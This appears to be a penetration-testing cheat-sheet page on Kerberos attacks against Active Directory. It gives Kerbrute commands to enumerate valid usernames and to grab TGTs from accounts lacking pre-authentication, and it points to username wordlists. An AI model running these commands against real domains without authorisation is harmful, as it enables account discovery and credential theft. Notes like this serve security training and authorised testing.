 # Kerberos

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (220).png>)

```
# validate users and grabbing TGTs if NO PREAUTH is present
kerbrute -domain DOMAIN.LOCAL -users users.txt -dc-ip 10.10.10.175
```

If you don't have a list of valid users, we can use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames). This repository contains many different user lists that can be extremely useful when attempting to enumerate users when starting from an unauthenticated perspective.&#x20;
